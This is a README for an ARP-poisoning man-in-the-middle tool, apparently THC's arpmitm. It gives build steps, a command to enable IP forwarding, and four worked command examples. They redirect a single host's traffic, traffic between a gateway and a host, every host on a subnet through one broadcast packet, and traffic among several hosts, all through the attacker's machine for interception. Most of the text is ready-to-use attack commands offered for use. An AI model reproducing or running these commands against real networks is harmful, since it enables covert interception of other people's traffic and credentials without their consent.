 # ARP Man-in-the-Middle

A tool to redirect hosts on a local network to your own computer (to intercept the traffic - aka ARP poisoning).  

Direct Download: [https://github.com/hackerschoice/thc-arpmitm/tree/master/releases](https://github.com/hackerschoice/thc-arpmitm/tree/master/releases)

**Install:**
```
$ ./configure --enable-static
$ make all
```

Make sure IP Forwarding is enabled:
```
# echo 1 > /proc/sys/net/ipv4/ip_forward
```

**Example 1:**
```
# ./thc-arpmitm -t 10.0.1.111.
```
The above redirects all traffic between 10.0.1.111 and the Internet through your computer.

**Example 2:**
```
arpmim -v 00:02:13:37:73:50 10.0.1.254:11:11:22:22:33:33 10.0.1.111:44:44:55:55:66:66
```
A classic redirect. The above redirects all traffic between 10.0.1.254 and 10.0.1.111 through your computer. Where 10.0.1.254 is the default gateway then this makes it identical to Example 1. Example 1 finds out all the MAC's automatically.

**Example 3:**
```
# ./thc-arpmitm 00:02:13:37:73:50 255.255.255.255 10.0.1.254
```
The above will use 1 broadcast packet to tell *everyone* that 10.0.1.254 is you now.

**Example 4 the bold:**
```
# ./thc-arpmitm -A 00:02:13:37:73:50 255.255.255.255 10.0.0.1 10.0.0.2 10.0.0.3 10.0.0.4
```
The above will redirect all local traffic between the 4 hosts through your computer.

**Features:**
- Auto-Mode
- Broadcast Mode: Send 1 ARP-broadcast to ALL hosts and redirect ALL hosts with a single packet (be warned!)

**Supported Platforms:**
1. Linux
1. MacOS
1. FreeBSD

**Changelog:**  
2000 Internal team-teso release by xdr/skyper  
2001 Leaked to the public  
2020 Resurrection. Portability and added AUTO-MODE for beginners.  
2040 stay tuned!!!  

shoutz :+1: #oscar, ADM


